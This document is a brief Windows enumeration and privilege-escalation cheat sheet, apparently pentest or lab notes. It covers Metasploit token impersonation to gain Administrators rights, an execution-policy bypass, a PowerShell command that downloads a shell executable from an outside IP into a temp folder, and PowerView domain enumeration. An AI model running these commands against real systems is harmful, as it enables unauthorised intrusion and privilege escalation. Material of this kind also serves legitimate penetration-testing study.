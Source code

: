 # Windows Enumeration
---
## Windows tools
- Nishang
- Windows Exploit Suggester 
- WinPEAS
---
## View all the privileges using whoami /priv
- The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

	- SeImpersonatePrivilege
	- SeAssignPrimaryPrivilege
	- SeTcbPrivilege
	- SeBackupPrivilege
	- SeRestorePrivilege
	- SeCreateTokenPrivilege
	- SeLoadDriverPrivilege
	- SeTakeOwnershipPrivilege
	- SeDebugPrivilege

- You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

- To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token.

## Invoke PS from CMD and bypass ep
- powershell -ep bypass

## Powershell Wget Equivalent 
powershell -c "Invoke-WebRequest -Uri 'http://10.13.44.60/shell-x86.exe' -OutFile 'c:\Windows\Temp\shell.exe'"


## Powerview.ps1
. .\PowerView.ps1
Get-NetComputer -fulldata | select operatingsystem - gets a list of all operating systems on the domain
Get-NetUser | select cn - gets a list of all users on the domain
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 - powerview cheat sheet
https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview - powerview cheat sheet
